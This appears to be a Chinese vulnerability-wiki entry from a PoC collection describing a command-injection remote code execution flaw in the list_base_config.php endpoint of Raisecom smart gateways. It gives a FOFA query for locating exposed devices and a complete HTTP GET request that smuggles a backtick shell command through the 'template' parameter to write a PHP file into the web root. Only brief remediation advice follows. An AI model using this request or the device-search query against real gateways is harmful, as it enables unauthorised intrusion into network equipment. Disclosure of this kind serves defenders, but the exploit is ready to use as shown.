




# 瑞斯康达智能网关 RCE漏洞

# 漏洞描述

瑞斯康达智能网关是一种用于电信和企业网络的高性能设备，主要用于边缘网络接入和智能数据处理。它集成了多种网络功能，如路由、交换、防火墙和VPN，能够支持多种接入方式，如光纤、以太网和无线通信等。list_base_config.php可进行命令注入攻击，导致远程代码执行。

影响版本

瑞斯康达智能网关

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/images/raisecom/back.gif" && title=="Web user login"

POC/EXP：

GET /vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Fjp.php%60 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close

该漏洞影响范围广泛，定义为重要漏洞预警

# 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本
   
   及时关注厂商修复方案。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
